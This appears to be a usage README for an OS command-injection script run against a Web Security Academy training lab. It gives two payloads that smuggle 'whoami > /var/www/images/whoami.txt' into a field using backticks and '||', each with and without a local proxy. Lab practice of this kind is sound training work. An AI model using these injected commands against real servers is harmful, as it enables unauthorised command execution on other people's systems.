 # How to run script.py

### 1. \`whoami > /var/www/images/whoami.txt\`

No proxy:
- python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "test\\\`whoami > /var/www/images/whoami.txt\\\`"

Proxy:
- python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "test\\\`whoami > /var/www/images/whoami.txt\\\`" -p 127.0.0.1:8080

### 2. ||whoami > /var/www/images/whoami.txt||

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "test||whoami > /var/www/images/whoami.txt||"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "test||whoami > /var/www/images/whoami.txt||" -p 127.0.0.1:8080`
